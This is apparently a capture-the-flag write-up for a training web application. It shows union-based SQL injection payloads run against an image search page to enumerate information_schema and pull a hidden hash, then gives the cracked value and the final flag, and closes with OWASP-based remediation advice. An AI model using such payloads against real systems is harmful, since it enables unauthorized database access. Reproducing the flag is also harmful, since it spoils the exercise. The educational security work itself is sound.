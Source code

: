 # SQL Injection (IMAGE)

Once clicking the `Search Image` located on bottom of the page, a prompt will be shown to search image with image number, (http://{IP_ADDR}/index.php?page=searchimg). let's see what information will be pulling off from: Putting number to see what information will be pulling out from Once you put any number and submit, it will bring a result with corresponding ID number with `ID`, `First name`, `Surname`

```
[...]
ID: 1
Title: Nsa
Url : https://fr.wikipedia.org/wiki/Programme_
[...]
ID: 5
Title: Hack me ?
Url : borntosec.ddns.net/images.png
[...]
```

As studied from [last method](../0x0a-sql_injection-members/README.md), every database will have it's schema, so let's check what information can be get by looking through `information_schema`

```
1 AND 1=1 UNION SELECT 1, table_name FROM information_schema.tables
```
the `list_images` table exists, so let's check all the column names from it.

```
1 AND 1=1 UNION SELECT table_name, column_name FROM information_schema.columns
```
by searching the `list_images`, the columns exist

```
id, url, title, comment
```

By tring all the columns, with using columns `title`, and `comment`, the following message can be reterived, with this query

```
1 AND 1=1 UNION SELECT title, comment FROM list_images
```

<img width="1163" alt="image" src="https://user-images.githubusercontent.com/46742040/202277463-931b337f-c8cb-48c2-bbb4-1db5929509cf.png">

as it shows, let's decrypt the password
```
ID: 1 AND 1=1 UNION SELECT title, comment FROM list_images
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : Hack me ?
```

```
1928e8083cf461a51303633093573c46 -(MD5 decrypt)-> albatroz -(sh256 encrypt)->

f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```

# Remedattion
A SQL Injection is an attack of injectin query through the input data from the client to the application. It can cause modify, removal, or admin operation to the databases. This can happen when unintended data enters a program from an untrusted source, or the data is used to dynamically construct a SQL query.

In order to prevent,

- Use of Prepare Statements (with Parameterized Queries)
- Use of properly construed stored Procedures
- Allow-list input valiation
- Escaping All User Supplied Input

See More:

- [SQL Injection | OWASP Foundation](https://owasp.org/www-community/attacks/SQL_Injection)
- [SQL Injection Prevention - OWASP Cheat Sheet Series](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
